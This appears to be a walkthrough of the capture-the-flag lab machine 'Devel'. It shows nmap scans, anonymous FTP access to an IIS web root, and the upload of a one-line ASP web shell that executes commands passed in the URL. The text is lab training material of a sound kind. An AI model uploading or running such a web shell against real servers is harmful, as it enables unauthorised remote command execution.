



Return to Main Page
??? Walkthrough
Contents
Running a port scan against the full port range to determine which ones are open.
# Nmap 7.91 scan initiated Wed Oct 13 12:35:00 2021 as: nmap -p- -oN ping_tcp 10.129.235.238
Nmap scan report for 10.129.235.238
Host is up (0.042s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
# Nmap done at Wed Oct 13 12:36:54 2021 -- 1 IP address (1 host up) scanned in 113.72 seconds
Running an nmap scan using the flags -sV and -sC to enumerate service versions and other information.
# Nmap 7.91 scan initiated Wed Oct 13 12:37:11 2021 as: nmap -p21,80 -sV -sC -oN script_tcp 10.129.235.238
Nmap scan report for 10.129.235.238
Host is up (0.041s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17 02:06AM <DIR> aspnet_client
| 03-17-17 05:37PM 689 iisstart.htm
|_03-17-17 05:37PM 184946 welcome.png
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 13 12:37:26 2021 -- 1 IP address (1 host up) scanned in 14.64 seconds
I begin with taking a look at the website on port 80.

It appears to be a default splash screen for IIS7. Nothing else interesting stands out from this page so I move to ftp on port 21. I attempt logging in with the credentials anonymous:anonymous ad it works.
┌──(kali㉿kali)-[~/Documents/htb2/Devel]
└─$ ftp 10.129.221.155
Connected to 10.129.221.155.
220 Microsoft FTP Service
Name (10.129.221.155:kali): anonymous
534 Local policy on server does not allow TLS secure connections.
534 Local policy on server does not allow TLS secure connections.
SSL not available
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> aspnet_client
03-17-17 05:37PM 689 iisstart.htm
03-17-17 05:37PM 184946 welcome.png
226 Transfer complete.
ftp>
It appears we have FTP access to the web servers root directory. Now I will test to see if we can write to the server.
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
12 bytes sent in 0.00 secs (195.3125 kB/s)
ftp>
It allowed me to upload my text.txt file, so we know we have write access. The test.txt file only contains the text "testing123". Now I go to the website and see if I can access this page.

I have now confirmed that we are able to upload files to the web server and access them. This time I will upload a web shell. It is an IIS server so I will use an asp webshell. aspx would probably would work.
┌──(kali㉿kali)-[~/Documents/htb2/Devel]
└─$ cat shell.asp
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
Now I upload it using ftp
ftp> put shell.asp
local: shell.asp remote: shell.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
100 bytes sent in 0.00 secs (1.7340 MB/s)
ftp>
Now I access it using firefox. Initially I tried the command "whoami" but the web shell was not outputting any information. However, when I added cmd /c in front of whoami it did successfuly run the command.
